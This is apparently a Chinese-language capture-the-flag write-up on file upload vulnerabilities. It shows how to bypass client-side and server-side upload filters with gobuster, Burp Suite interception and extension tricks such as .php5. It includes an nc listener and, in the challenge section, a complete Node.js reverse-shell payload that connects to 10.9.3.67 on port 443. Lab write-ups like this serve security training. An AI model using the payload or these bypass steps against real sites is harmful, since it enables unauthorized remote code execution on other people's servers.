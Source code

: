 # 繞過Client-Side Filtering
![Image](https://i.imgur.com/6DbwdeF.png)

1. 先查看原始碼，同時間跑gobuster看看有那些檔案目錄
![Image](https://i.imgur.com/umrE61b.png)
看到filter的檔案，點進去
得知白名單為`png`檔案。

![Image](https://i.imgur.com/IkX17AW.png)

2. 查看gobuster結果
![Image](https://i.imgur.com/eSe60Ty.png)

上傳一張png圖片然後找我們的上傳資料夾是哪一個。
![Image](https://i.imgur.com/1pIcM9o.png)

![Image](https://i.imgur.com/cRWw8Qg.png)

看到是在`images`資料夾

3. 看到是在images資料夾
   啟動Burpsuite，之後重新整理頁面，Burpsuite會攔截到我們的Request封包，我們想要的是Response，所以右鍵選擇`Do intercept`，點選`Response to this request`。之後點選`Forword`。
![Image](https://i.imgur.com/CNhNDMw.png)

得到我們的Response後，找到之前在原始碼看到的filter，將其刪除之後點選`Forword`。
![Image](https://i.imgur.com/PPKoc8q.png)

之後我們就可以直接上傳我們的shell.php檔案了。
![Image](https://i.imgur.com/F5nlL9T.png)
![Image](https://i.imgur.com/bKS38x8.png)

接下來開nc接收reverse shell
```bash
nc -lvnp 1234
// 1234 是我的shell.php內設定的port，你可以在shell.php檔案內自行設定。
```
![Image](https://i.imgur.com/kVAGXq0.png)

P.S. 若沒開nc，直接點選shell.php會看到這個錯誤：
```bash
WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111
```
![Image](https://i.imgur.com/74VocMb.png)

點選shell.php後獲得reverse shell
![Image](https://i.imgur.com/v65RUnb.png)

4. 第二種繞過方式：更改shell.php為合法的shell.png上傳，再利用Burpsuite修改我們的Request封包中的內容。
   現在shell.php為非法的檔案：
   ![Image](https://i.imgur.com/31QRrEw.png)

   修改為.png檔案，記得要先開Burpsuite攔截之後再點上傳(upload)。
   ![Image](https://i.imgur.com/nSFrkYJ.png)

   攔截到封包後修改MIME內容，再forword給server。(跟方法一區別，我把名字改成shell2.php)
   ![Image](https://i.imgur.com/YoADfeO.png)

   ![Image](https://i.imgur.com/agLvYx4.png)
   
   成功上傳。
   ![Image](https://i.imgur.com/iNXDVb9.png)

   開nc，拿到reverse shell。
   ![Image](https://i.imgur.com/XNmGWwc.png)

# 繞過server side filter
因為看不到server那邊的原始碼，所以無法得知實際上是怎麼做filter的，所以我們利用暴力法測試那些檔案是可以被上傳的，再試看看是否有方式可以繞過。

1. 嘗試一堆php的附檔名，可能有某一個可以被成功上傳。
   ![Image](https://i.imgur.com/lvxyGDg.png)
   ![Image](https://i.imgur.com/kN82tTH.png)

2. 假設`.jpg`可以上傳，那可以嘗試使用`XXX.jpg.php`上傳看看，有些檢測方式是抓 . 之後的來做filter，所以有機會可以使用此方式繞過。
   e.g.
   ![Image](https://i.imgur.com/ZjgbRrl.png)
   這一題嘗試了1.的第二張圖的所有附檔名，沒找到，又測試方法二也不行，最後是找到1.的圖一的.php5附檔名才成功繞過。

## challenge
![Image](https://i.imgur.com/jLzSXwj.png)

老樣子先在背景跑個gobuster
![Image](https://i.imgur.com/ClknauQ.png)
注意到有一個admin的資料夾是200可access的，進去看一眼。

注意到有一個admin的資料夾是200可access的，進去看一眼。
![Image](https://i.imgur.com/6YzZZMI.png)
    
再來看一下網站的組成：
![Image](https://i.imgur.com/zSZa627.png)
所以我們之前所使用的php的shell不適用，要改用的node.js的。

在[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)找到node.js的payload，另存成shell.js (記得更改port和ip位址)
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.9.3.67", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

接下來看網站的原始碼找是否有client-site filter。
![Image](https://i.imgur.com/OyyVKxb.png)

利用burpsuite刪除filter來繞過。
這邊要注意的是我們可以在網頁原始碼看到filter是另外載入的，而Brupsuite預設是不會攔截js的，所以要自己去option的地方做修改 (按Edit將黃色螢光筆內`^js$`的部分刪除)。
![Image](https://i.imgur.com/PgeTWa5.png)

接下來就可以開啟Burpsuite，重新整理頁面。
forword封包直到找到upload.js的封包，根據前面的操作將其中的filter刪除後按forword。
![Image](https://i.imgur.com/5T47MzM.png)
接下來就可以關閉Burpsuite了。

由於我們能上傳的是jpg檔，加上gobuster的結果來看，猜測上傳檔案的地方在/content資料夾。
![Image](https://i.imgur.com/ak2GAcA.png)

為了之後方便比較，先用gobuster在掃一次content資料夾，並加上`-x jpg`掃副檔名為jpg的檔案。
![Image](https://i.imgur.com/ETFpwu7.png)

![Image](https://i.imgur.com/ueDdRdN.png)
上傳剛剛的shell.js，失敗，說明有server-site filter，所以我們按照他的需求改成jpg再上傳一次。

成功上傳。
![Image](https://i.imgur.com/sHRQMlT.png)

接下來gobuster再掃一次剛剛的content資料夾。
![Image](https://i.imgur.com/gOXTcB8.png)
對比之後發現多出了YCS.jpg的圖檔，應該就是我們剛剛上傳的檔案。

接下來開nc listening，然後回到admin網頁，輸入`../content/YCS.jpg`。
![Image](https://i.imgur.com/pnSm2QE.png)

get shell
![Image](https://i.imgur.com/SwC2YeZ.png)

